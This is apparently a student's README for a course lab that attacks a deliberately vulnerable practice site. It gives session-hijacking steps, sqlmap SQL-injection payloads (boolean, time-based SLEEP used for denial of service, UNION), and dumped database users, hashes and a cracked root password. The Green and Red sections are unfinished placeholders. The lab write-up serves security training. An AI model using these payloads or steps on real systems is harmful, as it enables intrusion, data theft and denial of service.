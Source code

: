 ## Pen Testing Live Targets

Time spent: 25 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: Session Hijacking

Description: 

The Session Hijacking attack consists of the exploitation of the web session control mechanism, which is normally managed for a session token.

Because http communication uses many different TCP connections, the web server needs a method to recognize every user’s connections. The most useful method depends on a token that the Web Server sends to the client browser after a successful client authentication. A session token is normally composed of a string of variable width and it could be used in different ways, like in the URL, in the header of the http requisition as a cookie,

How to document and recreate this exploit:

1- First visit https://104.198.208.81/blue/public/staff/login.php and login using the pperson credentials. 
2- Then go to https://104.198.208.81/blue/public/hacktools/change_session_id.php to see your current PHPSESSIONID, store that information for later. 
3- Open another browser such as Firefox or Chrome and visit https://104.198.208.81/blue/public/hacktools/change_session_id.php, copy the authenticated PHPSESSIONID to replace the your Session ID. 
4- Next visit https://104.198.208.81/blue/public/login.php, you should see that you are already logged in. 
5- We successfully bypassed authentication.

![Session Hijacking Exploit](https://user-images.githubusercontent.com/111711434/200113050-d1337254-f6f5-4351-b27f-76912f7a5866.gif)


Vulnerability #2: Exploit # 2 - SQL Injections

Description: 

How to document and recreate this exploit:

1- First visit https://104.198.208.81/blue/public/staff/login.php and login using the pperson credentials. 
2- Then head on over to URL https://104.198.208.81/blue/public/salesperson.php?id=1 
3- Using BurpSuite, GET request file as a TXT file. We will feed this information to a tool called SQLMap with the following parameter: sqlmap -r /home/kali/sqlmal-dev/request.txt -a (the -a parameter will return EVERYTHING, at times not recommended)
4- SQLMap detects a vulnerability in the 'id=' field and provides us with three SQL injections:
	
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=3' AND 2971=2971 AND 'bcTH'='bcTH
    
    Comments after testing: Returned the information for another user, see below:
    
    Irene Boling
    555-736-2301
    iboling@salesperson.com

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=3' AND (SELECT 8396 FROM (SELECT(SLEEP(5)))PBWw) AND 'pCMl'='pCMl

    Comments after testing: Changed (SlEEP(5))))PBWw) to SLEEP(200000))))PBWw and it created a Denial of Service for the time   set. 
![Denial of Service after SQL injection  ](https://user-images.githubusercontent.com/111711434/200140448-3da3ba36-f3b6-4bcf-a079-b24d6592906c.png)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=-8495' UNION ALL SELECT CONCAT(0x716b766a71,0x6b544944475a6778655979637a6558776b595163416a567459494a735864556b4f55666875547352,0x7171717a71),NULL,NULL,NULL,NULL-- -

Comments after testing: Redirects back to the 'Find a Salesperson' web page.

The scan revelead the following information that can further assist us:

Web Server OS : Linux Ubuntu 16.04 or 16.10
Web App Technology: Apache 2.4.18 server
MySQL version: 5.0.12
 Databases:  
[INFO] fetching database names
[INFO] resumed: 'globitek_blue'
[INFO] resumed: 'information_schema'
[INFO] resumed: 'globitek_blue'
[INFO] resumed: 'globitek_green'
[INFO] resumed: 'globitek_red'
[INFO] resumed: 'mysql'
[INFO] resumed: 'performance_schema'
[INFO] resumed: 'sys'

Database management users:                                                                                                                                                                                                     
[*] 'debian-sys-maint'@'localhost'
[*] 'mysql.session'@'localhost'
[*] 'mysql.sys'@'localhost'
[*] 'root'@'localhost'


Moreover, SQLMap also located & revealed the following password hashes:

[INFO] fetching database users password hashes
[INFO] resumed: 'root','*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19'
[INFO] resumed: 'mysql.sys','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'
[INFO] resumed: 'debian-sys-maint','*7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C'
[INFO] resumed: 'mysql.session','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'


Using the integrated dictionary-based password cracker (mysql_passwd) the password for root was found:

database management system users password hashes:                                                                                                                                                                                           
[*] debian-sys-maint [1]:
    password hash: *7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C
[*] mysql.session [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[*] mysql.sys [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[*] root [1]:
    password hash: *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
    clear-text password: password

Description: 

## Green

Vulnerability #1: User Enumaration 

Description:

<img src="green-vuln1.gif">


## Red

Vulnerability #1: __________________

Description:

<img src="red-vuln1.gif">


## Notes

Describe any challenges encountered while doing the work
